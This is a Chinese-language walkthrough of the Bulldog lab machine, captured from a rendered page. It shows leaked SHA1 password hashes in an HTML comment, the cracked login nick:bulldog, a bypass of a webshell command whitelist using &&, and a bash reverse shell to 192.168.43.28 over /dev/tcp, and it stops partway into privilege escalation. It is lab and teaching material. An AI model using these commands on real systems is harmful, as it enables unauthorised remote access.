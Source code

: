    ```

    hash

    ```php

    <!--Need these password hashes for testing. Django's default is too complex-->
	<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
	Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
	Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
	Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
	Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
	Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
	Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->---------->(bulldog)
	Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->--------------->(付费才有)

    ```

    登录后台

    ```php

    nick:bulldog

    没有编辑权限，但是认证成功之后就可以访问webshell了

    webshell页面只能执行一些白名单的命令

    尝试使用管道符来进行绕过，分号被过滤了，但是可以用&&实现绕过白名单

    ```

* 反弹shell

    ```php

    echo "bash -i >& /dev/tcp/192.168.43.28/9797 0>&1" | bash

    cat /etc/passwd 主要关注Django和bulldogadmin用户

    ```

* 权限提升

    ```php

    # -user查找属于某个用户的文件，0是标准输入，1标准输出，2标准错误输出
    find / -user bulldogadmin 2>/dev/null

    重点关注两个文件，note 和 customPermissionAPP

    /home/bulldogadmin/.hiddenadmindirectory/customPermissionApp
    /home/bulldogadmin/.hiddenadmindirectory/note

    note中提示webserver有时需要root权限访问

    输出内容APP文件有很多乱码，用strings提取可打印字符
